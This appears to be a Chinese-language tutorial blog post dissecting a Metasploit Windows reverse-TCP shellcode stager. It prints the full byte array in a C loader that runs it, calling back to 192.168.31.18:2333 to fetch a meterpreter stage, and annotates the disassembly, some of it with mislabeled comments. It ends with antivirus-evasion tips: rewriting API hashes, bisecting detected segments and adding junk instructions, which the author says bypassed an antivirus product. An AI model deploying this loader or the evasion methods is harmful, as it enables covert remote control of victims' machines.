

# 什么是shellcode


这一大堆反斜杠加数字是一串msfvenom生成的shellcode,例如\x55代表两个十六进制数，它会被翻译成汇编语言，

例如：


这里55被翻译成了push ebp

55这2个16进制转换成8位二进制，然后告诉CPU执行，CPU识别发现是代码就会执行push ebp

> 在 x86 汇编语言中，指令 push ebp 用于将基指针寄存器（EBP）的值压入堆栈。每条汇编指令都有对应的机器码（十六进制编码）。
> 
> 对于 push ebp 指令，其对应的机器码（十六进制编码）是 0x55。
> 
> 所以，push ebp 对应的十六进制数是 0x55。

# 无文件（内存马）和有文件

上面利用msfvenom生成的shellcode，被翻译成汇编语言后，可以直接在内存中运行.

 可以直接在内存中运行，不依赖硬盘文件运行，我们称之为无文件运行.

比如上面生成的shellcode在成功运行后，我们在后续利用过程中可以做进程迁移，磁盘文件只是起到了一个触发作用，我们可以把这一段shellcode迁移到其他进程上，此时触发文件可以直接删除，不会对木马进程造成影响，除非关机，关机会清理内存(无文件！=进程迁移)

例如通过利用java漏洞或者apache,tomcat的漏洞写入的内存马

如果木马程序与磁盘中的文件关联我们需要依托文件运行，我们称之为有文件（程序运行时我们会无法删除文件，只有关闭进程才能删除文件）

当然这段shellcode只有在data段的时候，才会被CPU识别成是代码，才有机会运行


# shellcode在msf和cs中扮演了一个什么样的角色？

## staged和stageless

shellcode--小马--只负责连接

meterprete--大马--真正包含功能模块，实现各项功能

小马第一次把大马拉上的时候，只加载了Core Commands中的功能


实现其他功能就需要meterpreter再拉其他文件,反射DLL注入



上面这种阶段化的过程我们称之为staged

如果我们的shellcode直接就是meterpreter,不需要小马拉大马

那么在实际使用中如何区分大马和小马？

我们以meterpreter中的windows相关的payload举例


通过对比可以发现，第一张中名字和第二张的区别在于一个是'/'一个是'_'

通过这一区别我们可以区分shell_reverse_tcp和shell/reverse_tcp分别是stageless和staged类型

在Cobalt Strike中，如果选择生成的是payload generator,那么默认是staged的，分阶段


 如果直接选择生成可执行文件，windows executable如果不带s,就是分阶段的，带就是不分阶段的

再聊聊msf中payload名称的分类


 windows代表使用的操作系统平台，x64代表系统位数，vncinject代表监听端要做的具体操作（拿到会话后的操作工具），reverse代表反向连接，对方主动来连我们（bind代表正向，我们主动去连对方，不常用）tcp代表了连接方式，采用的什么通信协议，rc4代表加密方式,其他在rc4这个位置的通常代表一些加密方法或者其他特殊手段

# shellcode实现的细节

```
#include <stdio.h>
#include<windows.h>
unsigned char buf[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x31\xff\x0f\xb7\x4a\x26\x8b\x72\x28"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x57\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x58\x20\x01\xd3\x8b\x48\x18"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xc1"
"\xcf\x0d\xac\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x1f\x12\x68\x02"
"\x00\x09\x1d\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
void main()
{
    ((void(*)(void)) & buf)();
}
```

> - 包含头文件：
> 
> #include <stdio.h>：标准输入输出库头文件。
#include <windows.h>：Windows API 头文件。
> 
> - 定义 Shellcode：
> 
> unsigned char buf[] = {...};：定义一个字符数组 buf，存储一段 Shellcode（十六进制字节码）。
> 
> - 执行 Shellcode：
> 
> void main() { ((void(*)(void)) & buf)(); }：将 buf 的地址强制转换为一个函数指针，并调用它。这段代码的作用是直接执行 buf 中的 Shellcode。
> 
> Shellcode 分析：
> 
> 1.初始设置：\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30
> 
> `\xfc`：清除方向标志。
`\xe8\x8f\x00\x00\x00`：调用下一条指令，获取当前地址。
`\x60`：保存所有通用寄存器。
`\31\xd2`：将 EDX 寄存器清零。
`\x89\xe5`：将 ESP 寄存器的值复制到 EBP。
`\x64\x8b\x52\x30`：从 FS 段寄存器读取 PEB 的地址。
> 
> 2.PEB遍历：
> 
> `\x8b\x52\x0c`：获取 PEB 的 Ldr 地址。
`\x8b\x52\x14`：获取 Ldr.InMemoryOrderModuleList 链表的地址。
> 
> 3.模块遍历和字符串比较：
> 
> `\x31\xff\x0f\xb7\x4a\x26`：遍历模块链表，查找特定模块（例如 kernel32.dll）。
`\x8b\x72\x28`：获取模块的基地址。
> 
> 4.导出表解析：
> 
> `\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20`：解析模块的导出表，查找特定函数（如 LoadLibraryA 和 GetProcAddress）。
`\xc1\xcf\x0d\x01\xc7\x49\x75\xef`：继续遍历和比较导出函数名称。
> 
> 5.函数调用：
> 
> `\x52\x8b\x52\x10\x8b\x42\x3c`：调用特定的 Windows API 函数，通常用于加载新的库或获取函数地址。
`\x57\x01\xd0\x8b\x40\x78`：准备调用 LoadLibraryA 或 GetProcAddress。
6.网络操作：
> 
> `\x68\xc0\xa8\x1f\x12`：设置 IP 地址（192.168.31.18）。
`\x68\x02\x00\x09\x1d`：设置端口（2333）。
`\xff\xd5`：执行网络操作，通常是创建网络连接。
7.清理和返回：
> 
> `\x83\xf8\x00\x7e\x36`：检查操作结果。
`\xc3`：函数返回。

以下是逐条解析后的汇编语言代码：

```
; Shellcode start
fc                      cld                         ; Clear direction flag
e8 8f 00 00 00          call 0x94                   ; Call to next instruction
60                      pusha                       ; Push all general-purpose registers onto stack
31 d2                   xor edx, edx                ; Zero out EDX
89 e5                   mov ebp, esp                ; Move ESP to EBP
64 8b 52 30             mov edx, fs:[edx+0x30]      ; Move PEB to EDX
8b 52 0c                mov edx, [edx+0xc]          ; Move PEB_LDR_DATA to EDX
8b 52 14                mov edx, [edx+0x14]         ; Move InMemoryOrderModuleList to EDX
31 ff                   xor edi, edi                ; Zero out EDI
0f b7 4a 26             movzx ecx, word [edx+0x26]  ; Move export table number of functions to ECX
8b 72 28                mov esi, [edx+0x28]         ; Move module base address to ESI
31 c0                   xor eax, eax                ; Zero out EAX
ac                      lodsb                       ; Load byte at DS:(E)SI into AL
3c 61                   cmp al, 0x61                ; Compare AL with 0x61
7c 02                   jl 0x36                     ; Jump if less
2c 20                   sub al, 0x20                ; Subtract 0x20 from AL
c1 cf 0d                ror edi, 0xd                ; Rotate right EDI by 13 bits
01 c7                   add edi, eax                ; Add EAX to EDI
49                      dec ecx                     ; Decrement ECX
75 ef                   jnz 0x21                    ; Jump if not zero
52                      push edx                    ; Push EDX
8b 52 10                mov edx, [edx+0x10]         ; Move module base address to EDX
8b 42 3c                mov eax, [edx+0x3c]         ; Move PE header to EAX
57                      push edi                    ; Push EDI
01 d0                   add eax, edx                ; Add EDX to EAX
8b 40 78                mov eax, [eax+0x78]         ; Move export directory to EAX
85 c0                   test eax, eax               ; Test EAX
74 4c                   je 0x94                     ; Jump if zero
01 d0                   add eax, edx                ; Add EDX to EAX
50                      push eax                    ; Push EAX
8b 58 20                mov ebx, [eax+0x20]         ; Move names to EBX
01 d3                   add ebx, edx                ; Add EDX to EBX
8b 48 18                mov ecx, [eax+0x18]         ; Move number of names to ECX
85 c9                   test ecx, ecx               ; Test ECX
74 3c                   je 0x96                     ; Jump if zero
31 ff                   xor edi, edi                ; Zero out EDI
49                      dec ecx                     ; Decrement ECX
8b 34 8b                mov esi, [ebx+ecx*4]        ; Move name pointer to ESI
01 d6                   add esi, edx                ; Add EDX to ESI
31 c0                   xor eax, eax                ; Zero out EAX
c1 cf 0d                ror edi, 0xd                ; Rotate right EDI by 13 bits
ac                      lodsb                       ; Load byte at DS:(E)SI into AL
01 c7                   add edi, eax                ; Add EAX to EDI
38 e0                   cmp al, ah                  ; Compare AL with AH
75 f4                   jnz 0x60                    ; Jump if not zero
03 7d f8                add edi, [ebp-0x8]          ; Add [EBP-8] to EDI
3b 7d 24                cmp edi, [ebp+0x24]         ; Compare EDI with [EBP+24]
75 e0                   jnz 0x44                    ; Jump if not zero
58                      pop eax                     ; Pop EAX
8b 58 24                mov ebx, [eax+0x24]         ; Move function pointer to EBX
01 d3                   add ebx, edx                ; Add EDX to EBX
66 8b 0c 4b             mov cx, [ebx+ecx*2]         ; Move ordinal to CX
8b 58 1c                mov ebx, [eax+0x1c]         ; Move address table to EBX
01 d3                   add ebx, edx                ; Add EDX to EBX
8b 04 8b                mov eax, [ebx+ecx*4]        ; Move function address to EAX
01 d0                   add eax, edx                ; Add EDX to EAX
89 44 24 24             mov [esp+0x24], eax         ; Move EAX to [ESP+24]
5b                      pop ebx                     ; Pop EBX
5b                      pop ebx                     ; Pop EBX
61                      popa                        ; Pop all general-purpose registers from stack
59                      pop ecx                     ; Pop ECX
5a                      pop edx                     ; Pop EDX
51                      push ecx                    ; Push ECX
ff e0                   jmp eax                     ; Jump to EAX
58                      pop eax                     ; Pop EAX
5f                      pop edi                     ; Pop EDI
5a                      pop edx                     ; Pop EDX
8b 12                   mov edx, [edx]              ; Move value at EDX to EDX
e9 80 ff ff ff          jmp 0x85                    ; Jump to 0x85

; LoadLibrary and GetProcAddress for user32.dll
5d                      pop ebp                     ; Pop EBP
68 33 32 00 00          push 0x3233                 ; Push 0x3233 ('23')
68 77 73 32 5f          push 0x5f327377             ; Push 'ws2_32'
54                      push esp                    ; Push ESP
68 4c 77 26 07          push 0x72674c               ; Push 'KERNEL32.DLL'
89 e8                   mov eax, esp                ; Move ESP to EAX
ff d0                   call eax                    ; Call EAX
b8 90 01 00 00          mov eax, 0x190              ; Move 0x190 to EAX
29 c4                   sub esp, eax                ; Subtract EAX from ESP
54                      push esp                    ; Push ESP
50                      push eax                    ; Push EAX
68 29 80 6b 00          push 0x6b8029               ; Push 'GetModuleHandleA'
ff d5                   call ebp                    ; Call EBP
6a 0a                   push 0xa                    ; Push 0xA
68 c0 a8 1f 12          push 0x121fa8c0             ; Push 192.168.31.18
68 02 00 09 1d          push 0x1d090002             ; Push 2333
89 e6                   mov esi, esp                ; Move ESP to ESI
50                      push eax                    ; Push EAX
50                      push eax                    ; Push EAX
50                      push eax                    ; Push EAX
50                      push eax                    ; Push EAX
40                      inc eax                     ; Increment EAX
50                      push eax                    ; Push EAX
40                      inc eax                     ; Increment EAX
50                      push eax                    ; Push EAX
68 ea 0f df e0          push 0xe0df0fea             ; Push 'InternetConnectA'
ff d5                   call ebp                    ; Call EBP
97                      xchg eax, edi               ; Exchange EAX and EDI
6a 10                   push 0x10                   ; Push 0x10
56                      push esi                    ; Push ESI
57                      push edi                    ; Push EDI
68 99 a5 74 61          push 0x6174a599             ; Push 'bind'
ff d5                   call ebp                    ; Call EBP
85 c0                   test eax, eax               ; Test EAX
74 0a                   je 0x3a                     ; Jump if zero
ff 4e 08                dec dword [esi+0x8]         ; Decrement dword at [ESI+8]
75 ec                   jnz 0x2f                    ; Jump if not zero
e8 67 00 00 00          call 0x6c                   ; Call 0x6c
6a 00                   push 0x0                    ; Push 0
```

<br/>

msf源码：

https://github.com/rapid7/metasploit-framework/tree/master/external/source/shellcode/windows/x86/src/block

## 1.hash寻找api函数


windows api函数都会写在dll文件中

### 为什么要hash寻找api函数？


上面的代码做了什么？这里就和前面谈到无文件和有文件有关了，**Windows平台下的可执行文件的格式，我们称之为PE（Portable Executable）文件结构。**[PE基础](https://gh0st.cn/Binary-Learning/PE%E5%9F%BA%E7%A1%80.html)

PE表中有一个导入表，操作系统可以知道用文件调用了哪些windows api函数，函数地址就在其中

**而无文件shellcode是没有PE结构的，也就无法去调用各种api,所以汇编代码中如果为了实现一些功能需要调用windows api，那么只能自行去寻找，这也是第一段shellcode实现的方法.**

任何一个exe文件都会调用kernal32.dll,如果我们要调用的函数不在这个dll中，就需要利用kernal32.dll中的LoadLibrary函数去加载其他DLL文件.

例如LoadLibrary(user32.dll)

这里首先把需要的函数名字转换成一个hash值,


然后通过一种方式去找函数，接下来是一个复杂的过程

需要通过遍历进程模块的方式去查找user32.dll的地址

具体就是做了下图所示的过程,teb和peb是两个结构体，teb中包含进程中运行线程的各种信息，每个线程都对应一个TEB结构体。


在找到dll文件之后，就要读dll文件的PE结构（**EXE文件与DLL文件的区别完全是语义上的。它们使用的是相同的PE格式。惟一的不同在于一个位，这个位用来指示文件应该作为EXE还是DLL。**）

前面找导入函数，这里通过dll的导出表找需要导出的函数

 这里和前面一样采用hash的方法将函数名字变数字，然后遍历，匹配相同数字就能找到需要的函数


上面整串代码相当于定义了一个函数

def hanshu（api函数名字）

## 2.建立一个tcp连接


汇编代码：


这里汇编上来做了一个call ebp


其实就是将前面第一部分的所做的事调用过来,所以上面的内容可以这么理解:def hanshu（api函数名字）---->def ebp(0x0726774c),最后加载了一个ws2_32.dll文件.


接下来是差不多的操作

找到ws2_32.dll中的WSAStartup函数，然后调用了这个函数WSAStartup()


这个函数会直接通过操作系统的驱动告诉网卡准备网络连接

接下来是设置基本参数开始连接


这里WSASocketA中AF_INET代表IPV4，push进去的eax值是2（如果eax是23那就是IPV6）


SOCKET_STREAM代表TCP连接


IP地址和端口号


其中IP地址转16进制是小端序读取


这里可以ollydbg调试一下看看返回的IP地址，分析一下

然后就是连接


 connect()中s就是前面WSASocketA()，&sockaddr是前面set_address一段中的参数，包括ip地址和端口号信息的整个结构体的指针，16是sockaddr这个结构体的长度

## 3.将连接接收到的东西放在内存中


前面的看完到这里也不是很难理解了

在连接上后，就需要调用meterpreter的功能，所以需要接收


 因为meterpreter的数据不是一个文件，而是一串二进制数据，所以需要申请一块空间地址存放数据然后运行


接收以后，就需要不断接收不断读取，然后return的方式直接对程序进行执行


此时如果在ret出打断点，也可以看到meterpreter的代码

以上是msf的shellcode功能实现剖析，因为msf的裸马很容易被杀，所以可以参照上面的过程用C++自行编写，一样可以达到免杀的目的（代码就不沾了，试了试可以过火绒）

 这一章学习了一些基本的知识，也学到了一种静态免杀的方法，通过修改hash值的方式，感兴趣的师傅可以研究下，这里不做赘述了，我自己尝试了下使用这个方法，然后二分法定位被查杀段再结合花指令是可以绕过杀软检测的

https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection

工具：

https://github.com/embee-research/APIHashReplace